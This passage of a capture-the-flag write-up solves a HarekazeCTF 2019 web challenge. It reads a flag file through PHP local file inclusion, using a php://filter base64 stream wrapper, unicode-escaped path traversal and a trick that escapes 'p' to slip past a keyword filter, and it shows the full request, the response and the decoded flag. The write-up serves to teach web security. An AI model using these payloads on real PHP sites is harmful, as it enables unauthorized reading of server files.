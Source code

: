 I went back to the fountain of all information, Google, and searched for something along the lines of "PHP stream wrapper vulnerabilities". Wasn't really sure what I was looking for, since I have no clue what stream wrappers are. I found an article from the blog of RIPS (a static analysis tool for finding security vulnerabilities #notsponsored) called [New PHP Exploitation Technique Added](https://blog.ripstech.com/2018/new-php-exploitation-technique/). That sounded exciting.

Even more exciting was the first code block on the page:
```php
include($_GET['file'])
include('php://filter/convert.base64-encode/resource=index.php');
include('data://text/plain;base64,cGhwaW5mbygpCg==');
```

That second line looks like some weird funky stream wrapper that encodes what comes after it as base64, I think. That means the "WAF" won't be able to find the flag to censor!

So now our request body looks like this:
```json
{
    "page": "php://filter/convert.base64-encode/resource=\u002e\u002e/\u002e\u002e/\u002e\u002e/\u002e\u002e/\u0066lag"
}
```

Since the "WAF" blocks out `php:`, we just need to escape out one of the P's when we put in the base64 stream wrapper. Another trip to Wiki[p](https://en.wikipedia.org/wiki/P)edia is all we need to find that we can swap out `p` for `\u0070` to make one last request:
```json
POST http://153.127.202.154:1001/query.php
{
    "page": "\u0070hp://filter/convert.base64-encode/resource=\u002e\u002e/\u002e\u002e/\u002e\u002e/\u002e\u002e/\u0066lag"
}
```

And the response:
```json
{
    "content": "SGFyZWthemVDVEZ7dHVydXRhcmFfdGF0dGF0dGFfcml0dGF9Cg=="
}
```

ok this is epic !!!

Of course, this is in base64, and I want the flag in plain text. To do this conversion I could be a Cool Dude™ and use my bash environment to decode it:
```sh
$ echo 'SGFyZWthemVDVEZ7dHVydXRhcmFfdGF0dGF0dGFfcml0dGF9Cg==' | base64 -d
HarekazeCTF{turutara_tattatta_ritta}
```

But to be honest, I just used https://www.asciitohex.com/. Hope they enjoyed my ad revenue.

Flag: `HarekazeCTF{turutara_tattatta_ritta}`

I asked my Japanese friend if that meant anything and he said it was gibberish. Google Translate didn't tell me much:
![It was cold](static/2019-harekaze-encode-and-encode-translate.png "It was cold, whatever that means")
